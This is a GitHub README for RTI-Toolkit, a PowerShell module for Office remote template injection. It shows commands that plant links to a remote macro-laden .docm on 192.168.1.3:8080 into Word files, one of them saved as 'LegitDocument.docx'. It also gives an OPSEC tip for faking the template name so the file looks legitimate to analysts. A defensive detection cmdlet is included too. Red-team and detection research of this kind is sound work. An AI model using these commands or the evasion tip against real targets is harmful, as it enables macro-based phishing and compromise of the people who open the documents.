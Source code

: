 # RTI-Toolkit

Remote Template Injection Toolkit

## Description

RTI-Toolkit is an open-source PowerShell toolkit for Remote Template Injection attack. This toolkit includes a PowerShell script named `PS-Templator.ps1` which can be used from both an attacking and defensive perspective.

The following tables presents the main modules (cmdlets) of `PS-Templator.ps1`:

| Cmdlet | Description | Prespective |
| -------|:-----------:|:-----------:|
| [Invoke-Template](#invoke-template) | Implements remote template links within default Office Word templates  | attacking |
| [Invoke-Regular](#invoke-regular) | Implements remote template links within regular Office Word documents without template | attacking |
| [Invoke-Identify](#invoke-identify) | Indentifies remote template links within Office Word docx documents with/without template | defensive |
| Invoke-Type | | Misc |

⚠️ `PS-Templator.ps1` supports only DOCX files.

## Version

### 1.0.0

## License

This tool is licensed under the [![License: MIT](https://img.shields.io/badge/MIT-License-yellow.svg)](LICENSE).

## Table of Contents
- [RTI-Toolkit](#rti-toolkit)
  - [Description](#description)
  - [Version](#version)
  - [License](#license)
  - [Table of Contents](#table-of-contents)
  - [Remote Template Injection (RTI)](#remote-template-injection-rti)
  - [Installation](#installation)
  - [Cmdlets](#cmdlets)
    - [Invoke-Template](#invoke-template)
      - [Invoke-Template Example](#invoke-template-example)
    - [Invoke-Regular](#invoke-regular)
      - [Invoke-Regular Example](#invoke-regular-example)
      - [Invoke-Regular Example 2](#invoke-regular-example-2)
    - [Invoke-Identify](#invoke-identify)
      - [Invoke-Identify Example](#invoke-identify-example)
      - [Invoke-Identify Example 2](#invoke-identify-example-2)
  - [References](#references)

## Remote Template Injection (RTI)

Remote Template Injection (RTI) in the context of Microsoft Office refers to a specific type of security vulnerability that can be exploited through malicious templates in Office documents (e.g., Word, Excel, PowerPoint).

For example, in a DOCX file, the content is stored in XML format within the archive, and some of these XML files may reference external resources or templates. Attackers can indeed manipulate these XML files to insert malicious links or content that can potentially exploit vulnerabilities or deceive users. 

This is a Macro-Based attack.

## Installation

To load `PS-Templator.ps1` as a module into memory, run the following command:
```
Import-Module .\PS-Templator.ps1
```

:information_source: `PS-Templator.ps1` works without the necessity of installing any additional dependencies.<br /><br />
:information_source: `PS-Templator.ps1` works as PowerShell module.

## Cmdlets

### Invoke-Template

`Invoke-Template` is a cmdlet that implements remote template links within default Office Word templates.

#### Invoke-Template Example

Assuming that you have a default Word template, one like them:

![All Words Templates](/Pictures/All-Word-Templates.png)

Saved as, for example, 'Name.docx':

![Default Word Template Document](/Pictures/Default-Word-Template.png)

If you use `Invoke-Template` cmdlet you can insert a malicious link within this docx:

```
Invoke-Template -InputDoc Name.docx -Link "https://192.168.1.3:8080/Doc1.docm" -Output C:\Users\User\Desktop\LegitDocument.docx
```

Outcome:

![Invoke-Template-1](/Pictures/Invoke-Template-1.png)

As you can see, the Invoke-Template module keeps a backup of the original document and provides the full path to the malicious document.

From debugging prespective, if you connvert the malicious docx to zip archive and go into /word/_rels/settings.xml.rels, you can see the malicious link:

![Invoke-Template-Debug](/Pictures/Invoke-Template-Debug.png)

### Invoke-Regular

`Invoke-Regular` is a cmdlet that implements remote template links within default Office Word documents without templates.

#### Invoke-Regular Example

Assuming that you have a default Word document without a template, like this:

![Blank Document](/Pictures/Blank-Document.png)

Saved as, for example, 'Doc1.docx':

![Word Document](/Pictures/Word-Document.png)

If you use `Invoke-Regular` cmdlet you can insert a malicious link within this docx:

```
Invoke-Regular -InputDoc C:\Users\User\Desktop\Doc1.docx -Link "http://192.168.1.3:8080/Doc1.docm" -Output Nikos2.docx
```

Outcome:

![Invoke-Regular-1](/Pictures/Invoke-Regular-1.png)

As you can see, the Invoke-Regular module keeps a backup of the original document and provides the full path to the malicious document.

From debugging prespective, if you connvert the malicious docx to zip archive and go into /word/_rels/settings.xml.rels, you can see the malicious link:

![Invoke-Regular-Debug-1](/Pictures/Invoke-Regular-Debug-1.png)

#### Invoke-Regular Example 2

From an OPSEC perspective, you can use `-TemplateName` in conjunction with the `Invoke-Regular` module. This will make your malicious document appear more legitimate if someone try to analyze it.

Here is an example:

```
Invoke-Regular -InputDoc C:\Users\User\Desktop\Doc1.docx -Link "http://192.168.1.3:8080/Doc1.docm" -Output Legittemplate.dotx
```

Outcome:

![Invoke-Regular-Example-2](/Pictures/Invoke-Regular-Example2.png)

From debugging prespective, if you connvert the malicious docx to zip archive and go into /docProps/app.xml, you can see the fake template name:

![Invoke-Regular-Fake-Template-Name](/Pictures/Invoke-Regular-Fake-Template-Name.png)

### Invoke-Identify

`Invoke-identify` is a cmdlet that indentifies remote template links within Office Word docx documents with/without template.

#### Invoke-Identify Example

Assuming that you have a malicious Word document:

```
Invoke-Identify -InputDoc LegitDocument.docx -Output C:\Users\User\Desktop\output.txt
```

Outcome:

![Invoke-Identify Malicous Example](/Pictures/Invoke-Identify-Malicious-Example.png)

#### Invoke-Identify Example 2

Assuming that you have a non-malicious Word document:

```
Invoke-Identify -InputDoc Name.docx -Output C:\Users\User\Desktop\output2.txt
```

Outcome:

![Invoke-Identify Clean Example](/Pictures/Invoke-Identify-Clean-Example.png)

## References
- [ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros)
- [dmcxblue.gitbook.io](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1221-template-injection)
- [john-woodman.com](https://john-woodman.com/research/vba-macro-remote-template-injection/)
- [remoteInjector GitHub John Woodman](https://github.com/JohnWoodman/remoteInjector)
- [Invoke-Templator GitHub Outflanknl](https://github.com/outflanknl/Invoke-Templator)
- [attack.mitre.org](https://attack.mitre.org/techniques/T1221/)